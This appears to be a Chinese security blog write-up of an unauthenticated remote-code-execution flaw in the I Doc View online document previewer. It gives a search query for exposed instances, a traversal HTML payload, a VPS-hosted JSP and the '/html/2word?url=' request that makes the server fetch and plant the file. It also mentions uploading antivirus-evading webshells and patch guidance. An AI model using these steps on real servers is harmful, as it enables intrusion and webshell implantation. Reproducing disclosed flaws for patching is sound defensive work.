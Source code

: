 #  QVD-2023-45061：I Doc View在线文档预览系统RCE漏洞   
原创 Locks_  Timeline Sec   2023-12-26 18:30  
  
> 关注我们❤️，添加星标🌟，一起学安全！作者：Locks_@Timeline Sec 本文字数：1042 阅读时长：2～3min 声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
I Doc View 在线文档预览系统是由北京卓软在线信息技术有限公司开发的一套系统。主要为用户提供各种类型的文档文件的在线预览，而无需下载或安装相应的软件。  
## 0x02 漏洞概述  
  
**漏洞编号：QVD-2023-45061**  
  
I Doc View 在线文档预览系统存在远程代码执行漏洞，未经身份验证的远程攻击者利用 "/html/2word?url=" 接口可使服务器远程下载恶意文件，从而执行任意代码。  
## 0x03 影响版本  
  
iDocView < 13.10.1_20231115  
## 0x04 环境搭建  
  
有条件的请移步这边  
```
申请安装到您自己服务器的一个月免费试用版，请填写一下这个申请表：
https://wj.qq.com/s2/5983516/63c4/

```  
  
语法查询：  
```
title == "在线文档预览 - I Doc View"

```  
## 0x05 漏洞复现  
  
第一步：最好在vps上创建一个新的文件夹复现  
  
**vim timelinesec.html**构造html文件  
```
<!DOCTYPE html>
<html lang="en">
<head>
    <title>test</title>
</head>
<body>
  <link href="/..\..\..\docview\locks.jsp">
</body>
</html>

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgDBVI6viaLHxnbgVE1phQY4yopT83nbrmnBxiaAmibXpsf5llfN0jMnV8DY3jdr3ELMTTMXiaznKnYUw/640?wx_fmt=png&from=appmsg "")  
  
构造恶意文件  
```
vi '..\..\..\docview\locks.jsp'
 
 
<%out.print("Locks_");%>

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgDBVI6viaLHxnbgVE1phQY4ZnTecwicMUKIVeM85ib7lspOtyy1B7hK7UKHefLy0rffqlhDPick8s77g/640?wx_fmt=png&from=appmsg "")  
  
在服务器开启python的http服务  
```
python3.10 -m http.server 80

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgDBVI6viaLHxnbgVE1phQY46oVMZyHhRyjeksa4uYRCUzlb982Q0zDcAHaEwf9xkCfFvNZAa2smRQ/640?wx_fmt=png&from=appmsg "")  
  
然后在 I Doc View 在线文档预览系统上访问路径 ：  
```
http://your-ip/html/2word?url=http://your-vps-ip/timelinesec.html

```  
```
https://xxx.xx.xx.xx:84/html/2word?url=http://your-vps-ip/timelinesec.html

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgDBVI6viaLHxnbgVE1phQY4MGbugMZZqicdYfWFtgBSHNlQaoVVojun0TQMtQrkNribxrDS1TrAWVeQ/640?wx_fmt=png&from=appmsg "")  
  
其他都是之前测试用的，不用在意
当两个请求都响应200时会下载一个word文件，表示利用成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgDBVI6viaLHxnbgVE1phQY47zW8lwibZC6tQTibUdj6njTBSN1q83I5rKjkXbqoibBmEMDQqSwSnMcqQ/640?wx_fmt=png&from=appmsg "")  
  
访问locks.jsp验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgDBVI6viaLHxnbgVE1phQY4jbUUlM68eEnILT1riaTuUSrbBcqP0bShW5tOmkUNUUicfTIqDsX6T4Rw/640?wx_fmt=png&from=appmsg "")  
  
tips：上传的马子需要是免杀后才能上传成功（公众号后台回复“  
231226”获取免杀工具地址）  
  
上传的手法一样，多等一会，让子弹飞一会  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsgDBVI6viaLHxnbgVE1phQY4j1olJsYytmiazgj8YlRWAJ5WC74PdMSiaY6icF84fvK9dNM1wFQoTtMKA/640?wx_fmt=png&from=appmsg "")  
  
漏洞分析：解析应用中的远程页面缓存功能没有对输入的URL进行充分的安全验证，通过构造特殊的URL，使得应用下载恶意文件  
## 0x06 修复方式  
  
**1、官方修复方案：**厂商已禁用漏洞相关接口并升级软件版本到13.10.1_20231115，客户可升级到该版本解决漏洞，官网https://api.idocv.com已升级到最新版本。  
  
**2、临时修复方案：**a.使用防护类设备对相关资产进行防护；b.如非必要，避免将资产暴露在互联网；如有需要可通过网络ACL策略限制访问来源，只允许特定IP进行访问；c.限制服务器主动访问外部陌生链接。  
  
  
**推荐服务**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/VfLUYJEMVsjT9XsXuYuJ5o1RJZ95l1HcXV5tiaKbHOU6uPrSgotxOAWBYGLbxmjWj4bib26lsefdkTR94Zj8Djdw/640?wx_fmt=gif "")  
  
  
**历史漏洞**  
  
I Doc View在线文档预览系统存在弱口令I Doc View在线文档预览系统 view 任意文件读取漏洞I Doc View在线文档预览系统 upload 任意文件读取漏洞I Doc View在线文档预览系统 view 服务端请求伪造I Doc View在线文档预览系统system rce  
  
  
**后台功能**  
  
回复【  
1  
】领取新人学习资料回复【  
2  
】进入漏洞查询功能回复【  
3  
】获取加群方式  
  
回复【  
4  
】进入SRC-QQ交流群  
  
  
**商务合作**  
  
[Timeline Sec团队可合作项目清单](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247491949&idx=1&sn=5fd239d21a4a07859707b810c2a431ab&chksm=903ac79da74d4e8bf12c52fa3f3a0b14a9fbca35472362d4c40a4d9a6968a16e8d449896889c&scene=21#wechat_redirect)  
  
  
  
